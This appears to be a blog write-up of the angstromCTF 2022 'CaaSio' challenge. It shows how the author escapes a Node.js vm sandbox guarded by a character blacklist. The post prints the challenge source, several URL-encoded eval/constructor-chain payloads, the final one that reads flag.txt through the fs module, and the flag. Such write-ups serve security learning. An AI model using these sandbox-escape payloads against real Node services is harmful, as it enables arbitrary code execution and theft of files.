 ```yaml
---
layout: post
title:	"angstromCTF 2022 - Caasio"
date:	2022-05-06 08:20:21
categories:
    - blog
tags:
    - jsjail
    - misc
---
```



# Description
This is a challenge about _escape js vm_ in AnstromCTF 2022.

![image](https://user-images.githubusercontent.com/75429369/169534308-b7189ea9-8d48-49c4-b629-78564ee942f8.png)

# Solution

Read out the description and we'll know that we have to escape something _**jsjails**_, let's connect to the _**nc**_ !

![image](https://user-images.githubusercontent.com/75429369/169534898-d96539eb-e365-4290-82be-63e288d63ec5.png)

We can figure out that the program will wait the user to input a calculation and then it will give the result.
At this point, we've already known what we have to do is escape the js vm, after researching for solution, previous write up, .... I've made a payload and test it out:

![image](https://user-images.githubusercontent.com/75429369/169539477-568f9572-9e53-4860-9007-e9f633f06ded.png)

Hmmm, it's not like the first test when we only gave it a calculation, maybe the program has blocked some characters. Let's read the source:

```js
#!/usr/local/bin/node

// flag in ./flag.txt

const vm = require("vm");
const readline = require("readline");

const interface = readline.createInterface({
    input: process.stdin,
    output: process.stdout,
});

interface.question(
    "Welcome to CaaSio: Please Stop Edition! Enter your calculation:\n",
    function (input) {
        interface.close();
        if (
            input.length < 215 &&
            /^[\x20-\x7e]+$/.test(input) &&
            !/[.\[\]{}\s;`'"\\_<>?:]/.test(input) &&
            !input.toLowerCase().includes("import")
        ) {
            try {
                const val = vm.runInNewContext(input, {});
                console.log("Result:");
                console.log(val);
                console.log(
                    "See, isn't the calculator so much nicer when you're not trying to hack it?"
                );
            } catch (e) {
                console.log("your tried");
            }
        } else {
            console.log(
                "Third time really is the charm! I've finally created an unhackable system!"
            );
        }
    }
);
```

Like I said, it has blacklist filtered some characters such as: dot, brackets, backslash, underscore, greater,...

Looks like it has filtered all the special characters but no, the percent "%" hasn't. So we can easily bypass this regex by using urlencode, remember to put the payload into _**decodeURIComponent**_ and wrap it into _**eval**_ to evaluate:

```js
eval(decodeURIComponent(this%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()))
```

![image](https://user-images.githubusercontent.com/75429369/169539910-cbec5b74-8ac9-4d92-ab8d-4e5da2211feb.png)

I've thought this is it but it didn't... Maybe something wrong with the string that made the command didn't work.

I was in the deadlock for like 4-5 hours until I read the source again and realised that the forward slash "/" hasn't filtered. We can use it as a regex to convert it into a string, just add "/" at the start and the end of the payload:

```js
eval(decodeURIComponent(/this%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()/))
```
![image](https://user-images.githubusercontent.com/75429369/169540893-a87ab025-ee63-424b-9dd2-81ee1460c895.png)

WHAT, it didn't work but at least we have a little sparkle. It done parsed the regex into string, but it didn't evaluate because it wasn't a valid expression. 

Now let me do a trick, I just add another forward slashes at the first and the end of the payload again to comment it out, then use a line break to seperate the command, so we'll have our payload worked like a charm:

```js
eval(decodeURIComponent(/%2F%0Athis%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()%2F/))
```

It'll become this:

```js
eval(// commented so not evaled
this.constructor.constructor("return this.process.mainModule.require('fs').readFileSync('flag.txt')")() //) commented so not evaled
```
![image](https://user-images.githubusercontent.com/75429369/169543579-e158e4a9-7f6c-42aa-8244-71ba0e584980.png)

Take the buffer and decode by hex and we'll get the flag yay

```
actf{omg_js_is_like_so_quirky_haha}
```
Nice challenge after all.

Thank you for reading !!!

_The End_
